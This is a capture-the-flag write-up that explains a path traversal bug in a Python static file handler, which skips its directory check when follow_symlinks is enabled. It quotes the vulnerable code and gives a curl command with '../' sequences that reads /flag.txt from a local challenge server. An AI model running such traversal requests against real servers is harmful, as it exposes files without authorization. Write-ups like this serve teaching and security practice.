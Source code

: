 There is a path traversal vulnerability in the static resource handler as hinted by the comment in `app.py`.

```py
    async def _handle(self, request: Request) -> StreamResponse:
        rel_url = request.match_info["filename"]
        try:
            filename = Path(rel_url)
            if filename.anchor:
                # rel_url is an absolute name like
                # /static/\\machine_name\c$ or /static/D:\path
                # where the static dir is totally different
                raise HTTPForbidden()
            filepath = self._directory.joinpath(filename).resolve()
            if not self._follow_symlinks: # [1]
                filepath.relative_to(self._directory)
        except (ValueError, FileNotFoundError) as error:
            # relatively safe
            raise HTTPNotFound() from error
        except HTTPForbidden:
            raise
        except Exception as error:
            # perm error or other kind!
            request.app.logger.exception(error)
            raise HTTPNotFound() from error

        # on opening a dir, load its contents if allowed
        if filepath.is_dir():
            if self._show_index:
                try:
                    return Response(
                        text=self._directory_as_html(filepath), content_type="text/html"
                    )
                except PermissionError:
                    raise HTTPForbidden()
            else:
                raise HTTPForbidden()
        elif filepath.is_file():
            return FileResponse(filepath, chunk_size=self._chunk_size)
        else:
            raise HTTPNotFound
```

Indicated at `[1]`, when the `follow_symlinks` argument is set to `True`, the check to ensure the requested file resource is in the static resource directory is skipped.

The Dockerfile shows that the flag is at `/flag.txt` on the server. The following request reads the `flag.txt` file:

```sh
curl --path-as-is http://localhost:1337/files/../../../../../../flag.txt
DUCTF{../../../p4th/tr4v3rsal/as/a/s3rv1c3}
```
